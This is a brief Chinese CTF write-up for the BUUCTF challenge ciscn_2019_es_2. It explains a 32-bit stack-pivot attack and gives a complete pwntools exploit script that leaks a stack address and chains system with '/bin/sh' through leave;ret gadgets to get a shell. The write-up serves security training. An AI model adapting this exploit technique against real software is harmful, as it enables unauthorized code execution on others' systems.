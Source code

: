 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_es_2)

这是一道32位的栈迁移，利用leave_ret配合read函数，在栈上写入自带的system加"/bin/sh"

# exp

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
p=remote('node5.buuoj.cn',)
p=process('./ciscn_2019_es_2')
elf=ELF('./ciscn_2019_es_2')
#p=remote('node5.buuoj.cn',29105)
payload1=flat(cyclic(0x26),b'B')
p.sendlineafter(b'name?\n',payload1)	#这样发送payload后面会自动接上一个"\n"
p.recvuntil(b'B\n')	#接收的时候就要注意了
#一般32位接收 "ff"，64位会接收 "7f"
#gdb.attach(p)
#pause()
ebp_addr=u32(p.recv(4))
print(hex(ebp_addr))
sys_addr=0x8048400
leave_ret=0x8048562
s_addr=ebp_addr-0x38
print(hex(s_addr))
payload2=flat(cyclic(0x4),p32(sys_addr),p32(0xdeadbeef),p32(s_addr+0x10),'/bin/sh\x00').ljust(0x28,b'\x61')
#参数一是会pop到ebp中，参数二pop到eip中，参数三是system的返回地址随便填，参数四是"/bin/sh"的地址system调用需要的是地址不是后面的字符串，参数五是字符串"/bin/sh"，
payload2+=p32(s_addr)+p32(leave_ret)
#参数一覆盖原来的ebp，参数二是覆盖原来的返回地址，让其执行两次leave指令，回到我们构造的栈空间中
print(payload2)
p.sendline(payload2)
p.interactive()
```

